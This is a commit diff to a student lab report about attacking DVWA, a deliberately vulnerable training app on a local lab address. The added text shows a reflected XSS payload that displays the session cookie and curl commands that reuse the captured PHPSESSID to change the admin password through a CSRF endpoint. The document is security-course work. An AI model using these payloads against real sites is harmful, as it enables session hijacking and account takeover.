

Before and after one commit to ldcas-uc3m/CE-Lab5, a LaTeX document (report/report.tex, which reads report/parts/1-main.tex): part of page 3 of 3 before the commit and two parts of pages 3 and 4 of 4 after it, the two joined at a grey line, cut so that both start at the same text, the shorter picture padded with empty space. Compiled offline with pdfLaTeX.

Commit message:
Activity 3

```diff
--- a/report/parts/1-main.tex
+++ b/report/parts/1-main.tex
@@ -46,5 +46,16 @@
 \section*{Activity3}
 
 \begin{enumerate}
-    \item
+    \item When modifying the password, the server uses HTTP parameters (\texttt{password\_new} and \texttt{password\_conf}).\\
+    This means any request can be formed to change the password for the \texttt{admin} user (hard-coded). But, when trying with \texttt{curl -L}\footnote{\texttt{-L to allow redirections.}}\texttt{ "http://192.168.56.3/dvwa/\\
+    vulnerabilities/csrf/?password\_new=caca\&password\_conf=caca\&Change=Change\#"}, it redirects us to the login screen.\\
+    This is because it recognises it's a new session (no cookies saved) and asks us to log in.
+    \item As the for XSS Reflected input is not sanitized, we can add some custom code to be executed. Let's steal the session key.\\
+    By inputting \texttt{<script>alert(document.cookie)</script>}, we can generate an alert that outputs the session cookie. For me, it was \texttt{security=low;\\
+    PHPSESSID=374aa92f619ccb2be41df1fe0048e60b}.
+    \item Thanks to the previous session cookie, we can update our request to include that cookie, as follows:\\
+    \texttt{curl -b "security=low; PHPSESSID=374aa92f619ccb2be41df1fe0048e60b"\\
+    -L "http://192.168.56.3/dvwa/vulnerabilities/csrf/\\
+    ?password\_new=caca\&password\_conf=caca\&Change=Change\#"}\\
+    Which works perfectly.
 \end{enumerate}
```
Also changed, not shown: README.md.
